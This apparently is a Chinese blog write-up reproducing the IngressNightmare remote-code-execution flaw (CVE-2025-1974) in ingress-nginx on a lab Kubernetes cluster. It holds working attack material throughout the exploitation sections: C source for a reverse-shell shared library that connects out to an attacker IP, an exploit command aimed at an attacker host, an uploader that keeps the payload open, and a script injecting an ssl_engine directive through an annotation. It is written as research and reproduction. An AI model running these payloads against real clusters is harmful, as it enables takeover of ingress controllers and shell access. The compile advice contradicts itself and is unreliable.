

# 前言

复现过很多WEB漏洞，但是K8s相关的却寥寥无几，在Ingress-nginx Controller披露的时候就想来复现，于是兴致勃勃地搭好了K8s的环境，至今已两月有余，终于想起来了复现这个漏洞

# 漏洞描述

Kubernetes Pod中部署的准入控制器无需认证即可通过集群中的任意pod网络访问，攻击者可以通过向ingress-nginx发送特制的AdmissionReview请求，远程注入任意的NGINX配置，ingress-nginx在其后会对nginx配置进行测试，从而触发埋藏的恶意指令，导致Ingress-nginx中的任意代码执行。

影响版本：

- ingress-nginx≤ 1.11.4
- ingress-nginx=1.12.0

> Ingress是kubernetes中的一种API对象，提供HTTP/HTTPS路由、负载均衡和基于名称的虚拟主机等功能，用于管理外部访问集群内服务的规则
>
> Ingress-nginx是一个基于Nginx的k8s Ingress控制器，用于管理集群入口流量。它通过监听 Kubernetes API 的 Ingress 资源规则，动态配置 NGINX 以实现 HTTP/HTTPS 路由、负载均衡、TLS 终止和路径重写等功能，是 Kubernetes 中广泛使用的 Ingress 解决方案之一。


# 环境搭建

漏洞复现环境：

- k8s集群：1.22.2（已安装）
- Ingress-Nginx v1.4.0靶机
- Python 3.11.7容器，模拟被攻陷的pod，可执行python脚本，用于RCE Ingress-Nginx

## Ingress-Nginx安装

之前安装的k8s集群的版本是1.22.2


根据官方文档来看[GitHub - kubernetes/ingress-nginx: Ingress NGINX Controller for Kubernetes](https://github.com/kubernetes/ingress-nginx?tab=readme-ov-file#supported-versions-table)，需要下载1.4.0的Ingress-nginx



```bash
wget https://raw.githubusercontent.com/kubernetes/ingress-nginx/controller-v1.4.0/deploy/static/provider/baremetal/deploy.yaml
```

官方源是无法正常下载的，需要先替换docker的镜像源，

```
cat deploy.yaml | grep image
```


这里使用https://docker.aityp.com/搜索关键词`ingress-nginx/controller:v1.4.0` 、`ingress-nginx/kube-webhook-certgen:v20220916`


更改`deploy.yaml`中对应位置的镜像地址

```
swr.cn-north-4.myhuaweicloud.com/ddn-k8s/registry.k8s.io/ingress-nginx/controller:v1.4.0

swr.cn-north-4.myhuaweicloud.com/ddn-k8s/registry.k8s.io/ingress-nginx/kube-webhook-certgen:v20220916-gd32f8c343
```

替换

```
# 替换 controller 镜像
sed -i 's|registry.k8s.io/ingress-nginx/controller.*|swr.cn-north-4.myhuaweicloud.com/ddn-k8s/registry.k8s.io/ingress-nginx/controller:v1.4.0|' deploy.yaml


# 替换 webhook-certgen 镜像
sed -i 's|registry.k8s.io/ingress-nginx/kube-webhook-certgen.*|swr.cn-north-4.myhuaweicloud.com/ddn-k8s/registry.k8s.io/ingress-nginx/kube-webhook-certgen:v20220916-gd32f8c343|' deploy.yaml
```


也可以提前先拉好这两个镜像

```
docker pull swr.cn-north-4.myhuaweicloud.com/ddn-k8s/registry.k8s.io/ingress-nginx/controller:v1.4.0
```


通过deployment文件进行安装，部署ingress-nginx

```
kubectl apply -f deploy.yaml
```


指定命名空间为ingress-nginx可以看到pod部署成功了

```bash
kubectl get all -n ingress-nginx
```


pod/ingress-nginx-xxx后的status常见情况如下：

- ContainerCreating：容器正在创建，耐心等待即可
- ImagePullBackOff：镜像拉取失败，需检查镜像源是否ok
- Pending：调度失败或资源不足
- Completed：成功执行并正常退出
- Running：运行中

发现调度失败了，看一下日志

```
kubectl describe pod ingress-nginx-controller-58ddb59f6b-8td8x -n ingress-nginx
```


Ingress Nginx 的 Pod 一直处于 **Pending** 状态，其核心报错是：

> ```
> 0/3 nodes are available: 3 node(s) had taint {node-role.kubernetes.io/master: }, that the pod didn't tolerate.
> ```

这说明：

- **你的集群只有 master 节点（或所有节点都打了 master taint）**
- 这些节点设置了 taint，**防止普通 Pod 被调度上去**
- 而你部署的 Ingress Nginx Pod **没有配置容忍（toleration）这个 taint**

可以临时允许调度所有 Pod 到 master 节点上，可以移除 taint：

```
kubectl taint nodes <master-node-name> node-role.kubernetes.io/master-
```

重新部署一下，要更新镜像（或者其他 Pod 模板字段），需要先 **删除原有的 Job**，然后再重新 `apply`

```
kubectl delete namespace ingress-nginx
或者
kubectl delete -f deploy.yaml

或者挨个把对应的pod删掉
kubectl delete job -n ingress-nginx ingress-nginx-admission-create
kubectl delete job -n ingress-nginx ingress-nginx-admission-patch
......
```


## 模拟失陷pod安装

dockerfile如下

```
# 使用官方Python基础镜像
FROM python:3.11.7

# 设置工作目录
WORKDIR /app

# 安装requests库
RUN pip install --no-cache-dir httpx

# 设置容器启动时运行的命令
CMD ["python", "-c", "import httpx; import time; print('Httpx library is available'); time.sleep(9999999)"]
```

构建镜像

```
docker build -t python-test-ingress-nginx .
```

将docker镜像加载到containerd中

```
docker save python-test-ingress-nginx | sudo ctr -n=k8s.io images import -

ctr -n k8s.io images list | grep python-test-ingress-nginx # 查看是否导入成功
```


因为pod的调度是在master节点，所以构建镜像的时候应该在master节点构建

准备deployment文件

```
apiVersion: apps/v1
kind: Deployment
metadata:
  name: python-app
  namespace: test
spec:
  replicas: 1
  selector:
    matchLabels:
      app: python-app
  template:
    metadata:
      labels:
        app: python-app
    spec:
      containers:
      - name: python-container
        image: docker.io/library/python-test-ingress-nginx:latest
        imagePullPolicy: Never
```

创建单独的namespace构建pod

```
kubectl create ns test
kubectl apply -f python_deploy.yaml
kubectl get pod -n test
```


如果不需要调度到master节点，是在node节点构建的镜像的话，江苏nodeSelector限制 Pod 只调度到 `worker1`

```
spec:
  nodeSelector:
    kubernetes.io/hostname: worker1
```

## 需加载的so文件上传至pod

```
#include<stdio.h>
#include<stdlib.h>
#include<unistd.h>
#include<sys/socket.h>
#include<netinet/in.h>
#include<arpa/inet.h>


__attribute__((constructor)) static void reverse_shell(void)
{
    char *server_ip="192.168.121.102";
    uint32_t server_port=2333;
    int sock = socket(AF_INET, SOCK_STREAM, 0);
    struct sockaddr_in attacker_addr = {0};
    attacker_addr.sin_family = AF_INET;
    attacker_addr.sin_port = htons(server_port);
    attacker_addr.sin_addr.s_addr = inet_addr(server_ip);
    if(connect(sock, (struct sockaddr *)&attacker_addr,sizeof(attacker_addr))!=0)
        exit(0);
    dup2(sock, 0);
    dup2(sock, 1);
    dup2(sock, 2);
    char *args[] = {"/bin/sh", NULL};
    execve("/bin/sh", args, NULL);
}
```

编译一下

```
yum install openssl-devel
gcc -fPIC -Wall -shared -o shell.so shell.c -lcrypto
```


这里编译的时候不要用`gcc -fPIC -Wall -shared -o shell.so shell.c -lcrypto`，不然当nginx命令加载so的时候因为缺少libcrypto.so.10导致失败

上传到pod（实际情况有差异）

```
kubectl cp -n test ./shell.so python-app-587d84957c-bs2p7:/app/
```

进入容器

```
kubectl exec -it python-app-587d84957c-bs2p7 -n test -- /bin/bash
```


## 设置Root进入Ingress-Nginx

为了方便后续观察，需要将进入容器的权限提升到root，当前默认为www-data


需要更改deploy.yml，将runAsUser改为0，默认为101对应www-data


# 漏洞复现

## 脚本一

https://github.com/Esonhugh/ingressNightmare-CVE-2025-1974-exps

```
./ingressnightmare -m r -r 116.205.103.122 -p 2333 -i https://ingress-nginx-controller-admission.ingress-nginx.svc:443/networking/v1/ingresses -u http://ingress-nginx-controller.ingress-nginx.svc/fake/addr
```


通过对比看到已经获取到来看nginx-ingress-controller的shell


可能是我这里配置给的不够，打过去后没一会，Ingres-Nginx Controller这个pod就重启了

## 脚本二

利用之前上传的shell.so

```
kubectl cp -n test ./shell.so python-app-587d84957c-bs2p7:/app/
```

通过长连接使进程挂起，这样可以让文件描述符fd持续处于开启状态

```
curl -X POST http://ingress-nginx-controller.ingress-nginx.svc/fake/addr --data-binary @shell.so -H "Content-Length: 165760" -H "Content-Type: application/octet-stream" -H "Connection: keep-alive"
```

此时Ingres-Nginx Controller会生成临时文件


不过我运行了很多次，还是没有看到临时文件


当我用脚本上传的时候，还是没问题的

```
# uploader.py
import asyncio
import httpx

# 上传目标地址
url = "http://ingress-nginx-controller.ingress-nginx.svc/fake/addr"

# 加载 shellcode 文件
with open("shell.so", "rb") as f:
    shellcode = f.read()

# 定义伪异步上传数据生成器
class FakeIterator:
    def __init__(self):
        self.done = False

    async def __aiter__(self):
        yield shellcode
        await asyncio.sleep(60 * 60 * 60)  # 保持连接 60 小时

# 上传逻辑
async def upload():
    async with httpx.AsyncClient() as client:
        res = await client.post(
            url,
            data=FakeIterator(),
        )
        print("Posting done")

# 主程序：启动多个上传任务
if __name__ == "__main__":
    loop = asyncio.get_event_loop()
    loop.run_until_complete(
        asyncio.gather(*[upload() for _ in range(10)])
    )

```


直接用EXP试试，按照文件的步骤

EXP：[GitHub - yoshino-s/CVE-2025-1974](https://github.com/yoshino-s/CVE-2025-1974)

该exp以CVE-2025-24514+CVE-2025-1974的漏洞组合实现攻击。后续其他攻击复现都在该exp基础上进行更改。
使用命令下载payload，并进入到CVE-2025-1974目录：

```bash
git clone https://github.com/yoshino-s/CVE-2025-1974.git
cd CVE-2025-1974
```

我这里就直接下载下来kubectl cp进去了

本文模拟从失陷容器中直接发起攻击（更贴近真实攻击场景），因此不采用proxy的方式，需修改`exploit.py`，在其第12、13行前添加`#`以注释语句：

```python
#admission_url = "https://localhost:18443/networking/v1/ingresses"
#url = "http://localhost:8080/fake/addr"
```


这个适用于你直接 **从 Pod 内部运行此脚本** 或者使用了带有 DNS 解析的 **主机网络环境 + CoreDNS 配置完整**，这一点可以从deployment文件看出来


运行后，在Ingress-Nginx Controller上看到fd指向的临时文件


但是用这个脚本不知道为什么一直没复现出来，后来才知道按照奇安信最早的那篇文章的编译方式，添加-lcrypto会导致最后在加载so的时候因确实libcrypto.so.10而报错


最后修改了遍历fd的范围，拿到了shell


# 漏洞分析

这个漏洞的本质是加载恶意库，一共有以下几个步骤

1. nginx存在一个特性，在处理请求时，如果http请求体大于某个阈值（默认为 8KB），就会将请求体body保存到临时文件中，尽管nginx会立即删除该文件，但nginx持有指向该文件的文件描述符fd，可以通过形如`/proc/xx/fd/xxx` 的形式访问该文件，只要保持请求连接，就可以让fd描述符持续打开，供后续使用
2. 集群中任意pod可以无需任何身份验证向ingress-nginx的准入控制器发送一个恶意的AdmissionReview请求，而Ingress-Nginx收到该请求后会构造一个nginx配置文件，使用nginx -t命令执行，这一点打开代码后一眼就能看到
3. 因为nginx配置中的ssl_engine可以加载动态链接库文件，可以根据不同的配置比如auth-url、auth-tls-match-cn注入我们所需的ssl_engine，内容是fd描述符指向的so文件，加载恶意的so达到RCE的目的

不同配置注入的分析可以参考：[奇安信攻防社区-IngressNightmare CVE-2025-1974 RCE漏洞复现（超详细） (butian.net)](https://forum.butian.net/article/686)

# 写在最后

这个洞出来很久了，因为怠慢导致4月初准备复现的漏洞，现在7月才复现，中间遇到了很多坑：

1. https://github.com/yoshino-s/CVE-2025-1974这个脚本，最开始怎么都复现不了，一方面是根据文章的编译方式，添加了-lcrypto参数，导致加载so文件的时候因缺少libcrypto.so.10库而报错，另一方面是fd遍历范围如果不当的时候，会停住导致一直收不到shell
2. 排查原因的时候，因为没有root身份，导致很多fd文件没有权限翻看

推荐的复现方式还是，单独起一个长连接的脚本使fd文件打开，另外再去被攻击节点找到对应的fd描述符，直接使用

```
import json
import requests

admission_url = 'https://ingress-nginx-controller-admission.ingress-nginx.svc:443/networking/v1/ingresses'

with open("req.json", "r") as f:
    data = json.load(f)

def load():
    fdpath = '/proc/32/fd/26'
    data["request"]["object"]["metadata"]["annotations"][
            "nginx.ingress.kubernetes.io/auth-url"] = "http://example.com/#;}}}\n\nssl_engine %s;\n\n" % (fdpath,)
    try:
        res = requests.post(admission_url, json=data, verify=False)
        print("[+]testing" + " " + fdpath)
        print(res.text)
    except Exception as e:
        print("[!]" + " error parsing response")
        print(e)

load()
```


[K8s Ingress Controller部署指南：轻松实现服务外部访问_ingress-controller部署-CSDN博客](https://blog.csdn.net/weixin_53269650/article/details/138156079)

[奇安信攻防社区-IngressNightmare CVE-2025-1974 RCE漏洞复现（超详细） (butian.net)](https://forum.butian.net/article/686)

[k8s（1.28.2）部署ingress-nginx-controller（1.9.0）_部署ingresscontroller1.9-CSDN博客](https://blog.csdn.net/qq_41076892/article/details/133897130)

[CVE-2025-1974漏洞复现 | shallot's blog (sh4ll0t.github.io)](https://sh4ll0t.github.io/2025/04/28/CVE-2025-1974/)